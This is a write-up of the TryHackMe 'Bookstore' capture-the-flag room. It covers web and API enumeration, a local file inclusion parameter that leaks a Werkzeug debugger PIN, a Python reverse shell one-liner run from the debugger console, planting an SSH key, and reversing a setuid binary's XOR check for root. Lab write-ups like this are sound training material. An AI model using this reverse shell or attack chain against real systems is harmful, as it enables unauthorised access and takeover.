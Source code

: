 <h1>Writeup for Bookstore room on <a href='https://tryhackme.com'>TryHackMe</a></h1>

<h3>User Flag</h3>
Enumerate the IP with nmap
<br></br><img src='Screenshot (72).png'/><br></br>
We can see port 5000 which seems to be running a python server, we'll get back to that in a minute.
Let's enumerate the webserver first. There is nothing special about the webserver as in general. Even the login feature is nothing but a dud but if you look at the source code of the <b>login.html</b>,there is a hint.
<br></br><img src='Screenshot (73).png'/><br></br>
The debugger pin is in sid's bash history which would be <b>.bash_history</b><br></br>
Now we move to port 5000.
It is a REST Api and if you visit <b>/api</b> you can see all the available endpoints.
I tried to read the bash file with id, author and published query parameter but they did not work.
So I went back to the website and started the enumeration again and this time in /assests/js/api.js I saw the following comment
<h5>//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.</h5>
This indicates that we need to look for a parameter in the previous version. So now we need to change the version from v2 to v1 and look for a parameter.
<br></br>I used <b><a href='https://github.com/ffuf/ffuf'>FFUF</a></b> for this.
<br></br><img src='Screenshot (74).png'/><br></br>
We have the show parameter which we can use to get the pin. Now we can use the pin at <b>http://{MACHINE IP}:5000/console</b> (I was not aware of what Werkzeug was so I had to manually enumerate for the /console).
When you enter the pin you can access the console which executes python code.We can use that to get the shell, I used the python reverse shell for this but yuo are free to use any other shell
<h5>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{YOUR IP}",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")</h5>
WWith this we get the shell as user. Improve the shell by adding your ssh public key(present at ~/.ssh/id_rsa.pub) to <b>.ssh/authorized_keys</b> of the user sid, you need to create the .ssh folder first.
<h5>echo 'YOUR PUBLIC SSH KEY' > ~/.ssh/authorized_keys</h5>
After adding the keys you can login with your private key. You can create ssh keys with <b>ssh-keygen</b>, read more about it <a href='https://www.ssh.com/ssh/keygen/'>here</a>

<h3>Root</h3>
We can see a tryharder binary which has 's' bit set which means that we can run the binary as root. If you run the binary we can see that it asks us for a number and exits giving the message 'Incorrect Try Harder'. 
Lets copy the binary to our machine(Run the below command in your machine).
<h5>scp -i ~/.ssh/id_rsa sid@{MACHINE IP}:/home/sid/tryharder .</h5>
Now that we have the binary on our machine we can analyse the binary now.
Running strings against the binary shows us something very interesting.
<br></br><img src='Screenshot (76).png'/><br></br>
bash is running with -p to preserve the privileges of the root. Now we just need to find the magical number it is asking us. I opened the binary in ghidra and saw that our input was XORed with two values and then compared with a value, if it was equal it would run the bash command
<br></br><img src='Screenshot (77).png'/><br></br>
We can see that our input is being stored in <b>local_lc</b> variable and it is being XORed with hex value,  0x1116, and <b>local_l8</b>  varaiable with value, 0x5db3.
<br></br>
You can convert the hex values to decimal in Python Console.
<br></br><img src='Screenshot (78).png'/><br></br>

In XOR, if a ^ b ^ c = d then b ^ c ^ d = a (^ is xor. Also 0 ^ a = a and a ^ a = 0, you can use this property to understand the above statement. In the first equation XOR both sides with 'a' then the equation becomes b ^ c = d ^ a since a ^ a is 0 and anything XORed with 0 is the value itself. Now if you XOR both side with 'd' we will get b ^ c ^ d = a).
Now using this we will do, 23987 ^ 4374 ^ 1573724660 (1573724660 is the decimal value of 0x5dcd21f4 which is the hex value used in the comparision).
We will get the value we need, Now run the binary again, enter the value you get and that will give the root shell
